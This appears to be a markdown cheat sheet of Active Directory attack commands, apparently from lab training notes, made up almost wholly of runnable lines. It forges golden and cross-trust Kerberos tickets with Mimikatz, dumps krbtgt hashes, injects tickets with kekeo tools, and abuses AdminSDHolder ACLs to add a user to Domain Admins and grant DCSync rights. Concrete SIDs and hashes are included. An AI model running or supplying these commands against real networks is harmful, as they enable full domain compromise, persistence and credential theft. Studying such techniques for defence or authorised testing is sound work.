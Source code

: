 - Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:ind.ycsccorp.local /sid:S-1-5-21-2459409151-1819855402-4290146463 /sids:S-1-5-21-1903738692-3409922728-2061204017-519 /rc4:2c399692b7336ce75d9ae51bd817718d service:krbtgt /target:ycsccorp.local /ticket:C:\ticket\trust_tkt.kirbi"'

- Sid of enterprise admin group: SID: S-1-5-21root domain-519 (Ref: https://support.microsoft.com/en-in/help/243330/well-known-security-identifiers-in-windows-operating-systems)

- Sid of root domain is displayed in the output of lsadump::trust command

### Generate service ticket

- .\asktgs.exe C:\Users\user.ind02\Documents\Workdesk\Tools\kekeo_old\trust_tkt.kirbi CIFS/ ycsc-dc.ycsccorp.local


### Inject ticket

- .\kirbikator.exe lsa .\CIFS.ycsc-dc.ycsccorp.local.kirbi

### Via Krbtgt

- Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName ycsc-ind-dc

- Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:ind.ycsccorp.local /sid:S-1-5-21-2459409151-1819855402-4290146463/sids:S-1-5-21-1903738692-3409922728-2061204017-519 /krbtgt:c8245073e958a34be21246fad7bb5981 /ticket:C:\Users\user.ind02\Documents\Workdesk\Tools\krbtgt_tkt.kirbi"'

- Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\user.ind02\Documents\Workdesk\Tools\krbtgt_tkt.kirbi"'

### Cross forest

- Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:ind.ycsccorp.local /sid:S-1-5-21-2459409151-1819855402-4290146463 /rc4:0f0a9dc34c9c689ba9a37181c3526151 /service:krbtgt /target:website.ubcorp.local /ticket:C:\Users\user.ind02\Documents\Workdesk\Tools\krbtgt_tkt.kirbi"'

- ./asktgs.exe  C:\Users\user.ind02\Documents\Workdesk\Tools\kekeo_old\trust_forest_tkt.kirbi CIFS/ubws-dc.ubcorp.local

- .\kirbikator.exe lsa .\CIFS.ubws-dc.website.ubcorp.local.kirbi

## Abusing ACL

- Using Powerview: Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName user.ind02 -Rights All -Verbose 
- Using AD Module: Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=ind,DC=ycsccorp,DC=local' -Principal user.ind02 -Verbose
- Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
- Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'user.ind02'}
- Add-DomainGroupMember -Identity 'Domain Admins' -Members user.ind02 -Verbose
- Set-ADACL -DistinguishedName 'DC=ind,DC=ycsccorp,DC=local' -Principal user.ind02 -GUIDRight DCSync -Verbose
